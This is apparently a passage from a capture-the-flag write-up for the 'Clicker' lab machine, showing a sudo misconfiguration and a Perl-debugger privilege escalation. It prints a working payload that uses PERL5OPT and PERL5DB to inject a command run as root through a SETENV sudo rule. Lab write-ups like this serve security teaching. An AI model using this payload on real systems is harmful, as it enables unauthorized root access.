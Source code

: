 ```bash
jack@clicker:~$ sudo -l
Matching Defaults entries for jack on clicker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jack may run the following commands on clicker:
    (ALL : ALL) ALL
    (root) SETENV: NOPASSWD: /opt/monitor.sh
jack@clicker:~$ cat /opt/monitor.sh
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;

data=$(/usr/bin/curl -s http://clicker.htb/diagnostic.php?token=secret_diagnostic_token);
/usr/bin/xml_pp <<< $data;
if [[ $NOSAVE == "true" ]]; then
    exit;
else
    timestamp=$(/usr/bin/date +%s)
    /usr/bin/echo $data > /root/diagnostic_files/diagnostic_${timestamp}.xml
fi
jack@clicker:~$

jack@clicker:~$ head /usr/bin/xml_pp
#!/usr/bin/perl -w
# $Id: /xmltwig/trunk/tools/xml_pp/xml_pp 32 2008-01-18T13:11:52.128782Z mrodrigu  $
use strict;

use XML::Twig;
use File::Temp qw/tempfile/;
use File::Basename qw/dirname/;

my @styles= XML::Twig->_pretty_print_styles; # from XML::Twig
my $styles= join '|', @styles;               # for usage
```

We found exim - 'perl_startup' Local Privilege Escalation (Metasploit): https://www.exploit-db.com/exploits/39702 or https://0xn3va.gitbook.io/cheat-sheets/web-application/command-injection#perllib-and-perl5lib.

Example:

```bash
PERL5OPT=-d PERL5DB='exec "#{c}"' exim -ps 2>&-
sudo PERL5OPT=-d PERL5DB='exec "ls /root"' /opt/monitor.sh
```
